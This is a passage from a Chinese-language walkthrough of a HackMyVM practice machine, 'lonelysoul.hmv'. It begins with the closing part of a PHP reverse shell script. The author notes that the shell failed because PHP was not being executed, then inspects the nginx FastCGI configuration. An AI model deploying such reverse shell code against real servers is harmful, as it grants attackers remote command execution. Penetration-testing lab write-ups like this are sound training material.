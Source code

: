 ```php
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```


开启监听弹shell

发现没有弹成功。而且直接回显出了php文件的内容
说明这个php解析有问题

### 4.1. 修改php配置

在这个靶机上使用的是 `Nginx` 服务器
nginx对PHP-FPM的配置文件一般是`/etc/nginx/sites-available/default`
![assets/Pasted image 20241202162008.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241202162008.png)
可以发现php的处理被注释掉了
但是我们当前用户也不能修改这个文件

观察配置文件可以发现这里有一个域名 `lonelysoul.hmv`
```ini
server {
        listen 80;
        listen [::]:80;
#
        server_name lonelysoul.hmv;
#
        root /var/www/html;
        index index.html;
#
        location / {
                try_files $uri $uri/ =404;
        }

 # pass PHP scripts to FastCGI server
        #
               location ~ \.php$ {
               include snippets/fastcgi-php.conf;
        #
        #       # With php-fpm (or other unix sockets):
               fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        #       # With php-cgi (or other tcp sockets):
        #       fastcgi_pass 127.0.0.1:9000;
        }
}


```